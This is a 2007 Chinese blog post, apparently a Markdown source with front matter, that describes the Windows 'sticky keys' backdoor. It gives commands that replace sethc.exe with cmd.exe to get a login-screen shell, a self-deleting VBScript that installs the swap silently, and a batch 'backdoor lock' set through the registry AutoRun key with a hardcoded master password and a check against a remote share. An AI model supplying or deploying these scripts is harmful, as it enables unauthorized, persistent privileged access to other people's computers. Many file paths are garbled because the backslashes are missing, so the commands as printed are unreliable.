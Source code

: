 ```yaml
---
title: 2000/xp/vista下5次shift的粘滞键利用
description:      这篇文章里说的方法和欠钱前2天说的用explorer.exe替换sethc.exe然后在3389下用5次shift获得资源管理器的方法差不多，不过做了一些扩展，蛮有意思~
date: 2007-10-06 12:44:21
category: 技术文章
tags: ['技术类', '安全', '技巧', 'Windows']
post_id: 190
alias: 5Shift-sethc
ViewNums: 7023
---
```


这篇文章里说的方法和欠钱前2天说的用explorer.exe替换sethc.exe然后在3389下用5次shift获得资源管理器的方法差不多，不过做了一些扩展，蛮有意思~

在windows 2000/xp/vista下，按shift键5次，可以打开粘置，会运行sethc.exe，而且，在登录界面里也可以打开。这就让人联想到WINDOWS的屏保，将程序替换成cmd.exe后，就可以打开shell了。

　　XP：
```
| 将安装源光盘弹出（或将硬盘上的安装目录改名)  cd %widnir%system32dllcache  ren sethc.exe *.ex~  cd %widnir%system32  copy /y cmd.exe sethc.exe |
| --- |
```
VISTA：
```
| takeown /f c:windowssystem32sethc.exe  cacls c:windowssystem32sethc.exe /G administrator:F  然后按XP方法替换文件 |
| --- |
```
在登录界面按5此SHIFT，出来cmd shell，然后……

后门扩展：

转至：7j blog http://1v1.name/show-241-1.html#cm300

再更新一下
```
| Dim obj, success  Set obj = CreateObject("WScript.Shell")  success = obj.run("cmd /c takeown /f %SystemRoot%system32sethc.exe", 0, True)  success = obj.run("cmd /c echo y| cacls %SystemRoot%system32sethc.exe /G %USERNAME%:F", 0, True)  success = obj.run("cmd /c copy %SystemRoot%system32cmd.exe %SystemRoot%system32acmd.exe", 0, True)  success = obj.run("cmd /c copy %SystemRoot%system32sethc.exe %SystemRoot%system32asethc.exe", 0, True)  success = obj.run("cmd /c del %SystemRoot%system32sethc.exe", 0, True)  success = obj.run("cmd /c ren %SystemRoot%system32acmd.exe sethc.exe", 0, True) |
| --- |
```
第二句最有意思了.嘿嘿..自动应答....以前就遇到过类似的问题

再更新.加个自删除,简化代码...

| On Error Resume Next  Dim obj, success  Set obj = CreateObject("WScript.Shell")  success = obj.run("cmd /c takeown /f %SystemRoot%system32sethc.exe&echo y| cacls %SystemRoot%system32sethc.exe /G %USERNAME%:F&copy %SystemRoot%system32cmd.exe %SystemRoot%system32acmd.exe&copy %SystemRoot%system32sethc.exe %SystemRoot%system32asethc.exe&del %SystemRoot%system32sethc.exe&ren %SystemRoot%system32acmd.exe sethc.exe", 0, True)  CreateObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptName) |
| --- |

后门锁扩展：

allyesno注：可以采用cmd 锁 来进行cmdshell的密码验证 嘿嘿。。。

用下面的后门锁的方法是 把代码保存为bdlock.bat

然后修改注册表位置即可
```reg
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftCommand Processor]
　　"AutoRun"="bdlock.bat"

| @Echo Off  title 后门登陆验证  color a  cls  set temprandom=%RANDOM%  echo 请输入验证码:%temprandom%  set/p check=  if "%check%"=="%temprandom%%temprandom%" goto passcheck  if "%check%"=="%temprandom%" (  rem 后门服务器验证  rem 如果没有后门验证服务器请rem注释掉下一行代码  if exist 192.168.8.8ackdoor$pass goto passcheck  )  echo 验证失败  pause  exit  :passcheck  echo 验证成功  If "%passcmdlock%"=="aaa" Goto endx  Set passcmdlock=aaa :allyesno  Set Errorlevel=>nul  Echo 请输入验证密码？  Set password=allyesno Is a pig>nul  Set/p password=  rem 万能密码  if "%password%"=="allyesno is a sb" goto endx  If %time:~1,1%==0 Set timechange=a  If %time:~1,1%==1 Set timechange=b  If %time:~1,1%==2 Set timechange=c  If %time:~1,1%==3 Set timechange=d  If %time:~1,1%==4 Set timechange=e  If %time:~1,1%==5 Set timechange=f  If %time:~1,1%==6 Set timechange=g  If %time:~1,1%==7 Set timechange=h  If %time:~1,1%==8 Set timechange=i  If %time:~1,1%==9 Set timechange=j  set/a sum=%time:~1,1%+%time:~1,1%  Set password|findstr "^password=%timechange%%time:~1,1%%date:~8,2%%sum%$">nul  If "%errorlevel%"=="0" cls&Echo 口令正确&Goto End  Echo 请联系瑞星客服咨询正确密码！&Goto allyesno  :End  Set password=>nul  Set Errorlevel=>nul  Echo 很好，很和谐！  :endx |
| --- |
```
代码只是一个示例，请大家谨慎测试。